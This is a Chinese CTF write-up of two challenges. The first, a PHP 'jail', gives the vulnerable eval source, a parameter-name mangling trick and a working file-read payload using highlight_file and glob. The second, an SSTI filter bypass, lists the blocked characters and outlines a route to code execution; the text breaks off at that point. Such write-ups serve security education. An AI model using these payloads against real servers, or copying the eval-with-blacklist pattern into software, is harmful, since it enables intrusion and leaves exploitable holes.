### [Week3] ez_php_jail

```

<?php
highlight_file(__FILE__);
error_reporting(0);
include("hint.html");
$Jail = $_GET['Jail_by.Happy'];

if($Jail == null) die("Do You Like My Jail?");

function Like_Jail($var) {
    if (preg_match('/(`|\$|a|c|s|require|include)/i', $var)) {
        return false;
    }
    return true;
}

if (Like_Jail($Jail)) {
    eval($Jail);
    echo "Yes! you escaped from the jail! LOL!";
} else {
    echo "You will Jail in your life!";
}
echo "\n";

// 在HTML解析后再输出PHP源代码

?>
```

当 php 版本⼩于 8 时，GET 请求的参数名含有 . ，会被转为 _ ，但是如果参数名中有 [ ，这个 [ 会被直接转为 _ ，但是后⾯如果有 . ，这个 . 就不会被转为 _ 。

过滤了一些东西，我们可以使用highlight_file打开

```
/?Jail[by.Happy=highlight_file(glob("/f*")[0]);
```

**glob()** 函数：返回一个包含匹配指定模式的文件名或目录的数组，如果失败则返回 FALSE。

### **[Week3] 复读机**

SSTI，过滤了一些关键字和一些符号，经过测试，过滤了以下符号

```
+ - * / . {{ }} __ : " \
```

先是使用继承链走到 RCE

过滤了 `.` ，可以用中括号绕，过滤了关键字，可以在关键字中间插入一对单引号 `''`

寻找能 RCE 的类，比如 `<class 'os._wrap_close'>`
